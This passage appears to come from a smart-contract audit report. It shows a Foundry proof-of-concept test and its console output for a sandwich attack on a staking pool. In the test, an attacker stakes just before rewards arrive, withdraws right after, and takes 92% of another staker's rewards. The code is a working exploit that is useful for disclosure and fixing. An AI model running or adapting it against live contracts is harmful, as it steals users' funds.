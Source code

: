 ```js
        sdl.mint(alice,10 ether);// mint sdl tokens to alice
        vm.prank(alice);// alice is a normal staker, that deposit 10 tokens with a stake period .
        sdl.transferAndCall(address(p_pool),10 ether,abi.encode(0,10 days));
    }

    function test_Poc() public {
        // assume that some rewareds are sent to the pool to be distributed :
        // bob will frontrun this to deposit sdl tokens :
        frontrun();
        r_token.transferAndCall(address(p_pool),10 ether,""); // distribute rewared ..
        backrun();
        // check balances after :
        uint bob_reward = r_token.balanceOf(bob);
        uint bob_sdlbalance = sdl.balanceOf(bob);
        console.log("bob rewared after sandwich attack     : ", bob_reward);
        console.log("bob sdl balance after sandwich attack : ", bob_sdlbalance);
        // calculate the percentage of the rewards bob took :
        uint perc = bob_reward * 100 / 10 ether;
        console.log("bob was able to steal " ,perc,"% of the rewared from alice " );
    }
    function frontrun() internal {
        // stake sdl token:
        vm.prank(bob);
        sdl.transferAndCall(address(p_pool),120 ether,abi.encode(0,0));
    }

    function backrun() internal {
        // withdraw rewared :
        vm.startPrank(bob);
        p_pool.withdrawRewards(p_pool.supportedTokens());
        // withdraw sdl :
        uint lockId = p_pool.lastLockId();
        p_pool.withdraw(lockId,120 ether);
        vm.stopPrank();
    }



}
```

- console after running test :

```sh
 Running 1 test for test/foundry_t/setUp.t.sol:sandwichPoc
[PASS] test_Poc() (gas: 316360)
Logs:
  bob rewared after sandwich attack     :  9211356466876971600
  bob sdl balance after sandwich attack :  120000000000000000000
  bob was able to steal  92 % of the rewared from alice
```

